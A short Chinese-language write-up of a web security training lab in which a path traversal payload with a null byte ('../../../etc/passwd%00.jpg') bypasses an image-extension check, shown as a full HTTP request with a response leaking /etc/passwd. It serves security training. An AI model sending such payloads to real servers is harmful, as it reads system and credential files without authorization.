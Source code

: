 #### Lab: File path traversal, validation of file extension with null byte bypass

题意：这次验证的是文件后缀，必须以图片文件后缀结尾。

默认使用 `GET /image?filename=38.png HTTP/2` 文件名和后缀获取文件。只有通过 %00 才能绕过

```bash
GET /image?filename=./../../../etc/passwd%00.jpg HTTP/2
Host: 0a0a005a047b581284437d3100a600db.web-security-academy.net
Cookie: session=Jsb5FL3Bs6TL57AAUTlyBdzeLEeeQRTQ
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a0a005a047b581284437d3100a600db.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

因此 %00 还是有必要尝试一下的。

## 参考资料

-   [Interaction-File-URL.pptx](https://www.raingray.com/usr/uploads/2023/06/2258492044.pptx)

最近更新：2023 年 10 月 07 日 17:00:05

发布时间：2022 年 01 月 25 日 22:22:00
